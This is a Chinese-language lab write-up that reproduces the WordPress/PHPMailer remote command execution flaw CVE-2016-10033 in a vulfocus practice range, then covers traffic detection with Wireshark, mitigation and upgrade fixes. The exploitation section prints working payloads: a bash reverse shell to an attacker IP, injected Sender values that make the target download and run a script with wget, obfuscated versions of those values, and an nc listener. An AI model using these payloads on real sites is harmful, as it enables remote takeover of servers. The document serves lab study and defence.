# wordpress漏洞
## 漏洞复现
### 靶场搭建
网络结构搭建后，在vulfocus中启动靶场环境


经试验第二个网址可以成功访问wordpress页面


使用wordpress的扫描wpscan工具对该网页进行扫描，可以得知该网页的wordpress版本号为4.




经过查询，可以得知在4.7.1版本之前WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞编号为CVE-2016-10033

使用msf工具搜索CVE-2016-10033漏洞的相关信息
发现漏洞可以使用

经过查询，得知漏洞页面是在用户忘记密码，获取新密码的页面，输入用户名后即发送邮件

使用burp suite和proxy进行设置，开启抓包


输入admin用户名后，点击get new password

之后查看burpsuite，找到lostpassword的相关包

点击send to repeater之后即可更改指令


接下来要开始构建payload，但有一些需要注意的地方执行的命令不能包含大量特殊字符，如 :、引号等。命令会被转换成小写字母  命令需要使用绝对路径  需要知道某一个存在的用户的用户名

接下来在攻击机构建一个cmd.sh的脚本，攻击机ip为192.168.37.5，脚本内容为
`bash -i >& /dev/tcp/192.168.37.5/9999 0>&1`
通过 TCP 连接将目标主机的 shell（命令行界面）反向连接到攻击机的指定 IP 地址和端口。端口号为9999
payload:
`aa(any -froot@localhost -be ${run{/usr/bin/wget --output-document /tmp/rce 192.168.157.137/cmd.sh}} null)`
执行反弹shell
`aa(any -froot@localhost -be ${run{/bin/bash /tmp/rce}} null)`
两个payload中的空格与/需要进行替换，经过查询后，将两个payload进行转换
`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce${substr{10}{1}{$tod_log}}192.168.157.137${substr{0}{1}{$spool_directory}}cmd.sh}} null) `

`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce}} null)`
首先在攻击机上启用http服务，默认端口为80

然后执行第一个payload，在靶机上下载cmd.sh并改为rce

观察攻击机的反馈提示，返回码为200，即传输成功

接着在攻击机上，对端口9999，进行流量检测
`nc -lvnp 9999`

接着执行下一个payload，执行反弹shell

发现成功执行了反弹shell，使用命令ls /tmp即可成功获得flag，成功夺旗，标志着漏洞复现成功

## CVE-2016-10033漏洞利用检测
用tcpdump对网卡eth1进行流量检测，并再次进行攻击，将抓包的内容保存到capture.pcap,重复攻击流程后终止抓包

在wireshark中对capture.pcap的流量进行筛选，筛选条件为http，并试图从中找出可疑的数据包
发现有几个可疑的数据包，通过追踪http流进行进一步分析：


追踪http流后发现了相关的指令和返回的数据包

payload1
payload2
## 缓解与修复
### 缓解
部署 Web 应用程序防火墙 (WAF)：部署 Web 应用程序防火墙 (WAF) 来监视和过滤传入流量，以发现指示 RCE 攻击的可疑活动。 WAF 可以在恶意请求到达您的 WordPress 站点之前检测并阻止它们，从而提供针对网络威胁的额外防御层。
应用最小权限原则让 PHP 进程运行在无 sudo、无编译器、无 /usr/bin/wget 等高危二进制的受限账户下；即便注入成功，也难以进一步横向或持久化。
### 修复
将WordPress  升级到 ≥ 4.7.1（已内置 PHPMailer 5.2.21）WP 4.7.1 官方安全维护版已回溯修补此缺陷 或单独升级phpmailer版本


代码层面 避免 将任何未验证输入写入 Sender或from
## 遇到的问题
#### 1.登录vulfocus时显示服务器内部错误，查询相关资料后发现是redis服务启动出现了问题



进入容器后输入`redis-server`，再次访问vulfocus并进行登录，发现可以正常登录
#### 2.burp suite使用相关

yakit在使用中，对于发出的请求包有着严格的要求，导致请求包格式稍有差错就会发不出去，因此再搜索解决办法后决定使用burpsuite进行请求包发送的相关工作。

下载后进行设置，在设置中添加127.0.0.1：82，并在proxy中进行同步设置，使得流量流经burp suite，经过实践后发现使用burpsuite可以成功进行抓包并且进行请求包的发送及responce的收取
